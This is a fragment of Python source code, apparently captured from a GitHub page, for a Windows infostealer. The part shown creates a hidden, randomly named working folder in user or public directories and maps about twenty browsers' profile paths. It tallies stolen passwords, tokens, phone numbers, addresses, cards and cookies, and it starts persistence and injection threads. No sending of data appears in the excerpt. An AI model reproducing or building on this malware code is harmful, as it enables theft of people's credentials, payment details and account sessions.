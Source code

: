             self.appdata,
            self.roaming,
            os.getenv('temp'),
            'C:\\Users\\Public\\Public Music',
            'C:\\Users\\Public\\Public Pictures',
            'C:\\Users\\Public\\Public Videos',
            'C:\\Users\\Public\\Public Documents',
            'C:\\Users\\Public\\Public Downloads',
            os.getenv('userprofile'),
            os.getenv('userprofile') + '\\Documents',
            os.getenv('userprofile') + '\\Music',
            os.getenv('userprofile') + '\\Pictures',
            os.getenv('userprofile') + '\\Videos'
        ]
        while True:
            rootpath = random.choice(dirs)
            if os.path.exists(rootpath):
                self.tempfolder = os.path.join(rootpath,''.join(random.choices('ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890',k=8)))
                break
        internal.tempfolder = self.tempfolder

        self.browserpaths = {
            'Opera': self.roaming + r'\\Opera Software\\Opera Stable',
            'Opera GX': self.roaming + r'\\Opera Software\\Opera GX Stable',
            'Edge': self.appdata + r'\\Microsoft\\Edge\\User Data',
            'Chrome': self.appdata + r'\\Google\\Chrome\\User Data',
            'Yandex': self.appdata + r'\\Yandex\\YandexBrowser\\User Data',
            'Brave': self.appdata + r'\\BraveSoftware\\Brave-Browser\\User Data',
            'Amigo': self.appdata + r'\\Amigo\\User Data',
            'Torch': self.appdata + r'\\Torch\\User Data',
            'Kometa': self.appdata + r'\\Kometa\\User Data',
            'Orbitum': self.appdata + r'\\Orbitum\\User Data',
            'CentBrowser': self.appdata + r'\\CentBrowser\\User Data',
            '7Star': self.appdata + r'\\7Star\\7Star\\User Data',
            'Sputnik': self.appdata + r'\\Sputnik\\Sputnik\\User Data',
            'Chrome SxS': self.appdata + r'\\Google\\Chrome SxS\\User Data',
            'Epic Privacy Browser': self.appdata + r'\\Epic Privacy Browser\\User Data',
            'Vivaldi': self.appdata + r'\\Vivaldi\\User Data',
            'Chrome Beta': self.appdata + r'\\Google\\Chrome Beta\\User Data',
            'Uran': self.appdata + r'\\uCozMedia\\Uran\\User Data',
            'Iridium': self.appdata + r'\\Iridium\\User Data',
            'Chromium': self.appdata + r'\\Chromium\\User Data'
        }
        self.stats = {
            'passwords': 0,
            'tokens': 0,
            'phones': 0,
            'addresses': 0,
            'cards': 0,
            'cookies': 0
        }
        try:
            os.makedirs(os.path.join(self.tempfolder), 0x1ED, exist_ok=True)
            ctypes.windll.kernel32.SetFileAttributesW(self.tempfolder,0x2)
            ctypes.windll.kernel32.SetFileAttributesW(self.tempfolder,0x4)
            ctypes.windll.kernel32.SetFileAttributesW(self.tempfolder,0x256)
        except Exception: self.exceptions.append(traceback.format_exc())
        os.chdir(self.tempfolder)
        if config.get('persist') and not self.stolen: Thread(target=self.persist).start()
        if config.get('inject'): Thread(target=self.injector).start()
        self.tokens = []
        self.robloxcookies = []
        self.files = ""